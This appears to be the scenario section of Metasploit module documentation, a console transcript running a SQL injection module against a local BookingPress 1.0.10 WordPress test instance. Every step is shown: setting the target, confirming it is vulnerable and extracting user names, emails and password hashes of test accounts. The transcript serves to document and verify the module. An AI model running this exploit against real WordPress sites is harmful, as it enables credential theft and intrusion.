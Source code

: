 ### Booking Press 1.0.10, WordPress Latest Docker Image on Debian 11 (bullseye)
```
msf6 > use auxiliary/gather/wp_bookingpress_category_services_sqli
msf6 auxiliary(gather/wp_bookingpress_category_services_sqli) > set RHOSTS 127.0.0.1
RHOSTS => 127.0.0.1
msf6 auxiliary(gather/wp_bookingpress_category_services_sqli) > set RPORT 8000
RPORT => 8000
msf6 auxiliary(gather/wp_bookingpress_category_services_sqli) > set TARGETURI "/?page_id=10"
TARGETURI => /?page_id=10
msf6 auxiliary(gather/wp_bookingpress_category_services_sqli) > show options

Module options (auxiliary/gather/wp_bookingpress_category_services_sqli):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS     127.0.0.1        yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using-Metasploit
   RPORT      8000             yes       The target port (TCP)
   SSL        false            no        Negotiate SSL/TLS for outgoing connections
   TARGETURI  /?page_id=10     yes       The URL of the BookingPress appointment booking page
   VHOST                       no        HTTP server virtual host


View the full module info with the info, or info -d command.

msf6 auxiliary(gather/wp_bookingpress_category_services_sqli) > check
[+] 127.0.0.1:8000 - The target is vulnerable.
msf6 auxiliary(gather/wp_bookingpress_category_services_sqli) > exploit
[*] Running module against 127.0.0.1

[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target is vulnerable.
[*] Extracting credential information
Wordpress User Credentials
==========================

 Username   Email                  Hash
 --------   -----                  ----
 normal     normal@test.com        $P$Bu9/XNK93oyUTKO.zJ9yGZfYAcbZg9.
 testAdmin  test@testfakeness.com  $P$BYWtZOfh8yqLCKA877hwBysqGdRtk/.

[*] Auxiliary module execution completed
msf6 auxiliary(gather/wp_bookingpress_category_services_sqli) >
```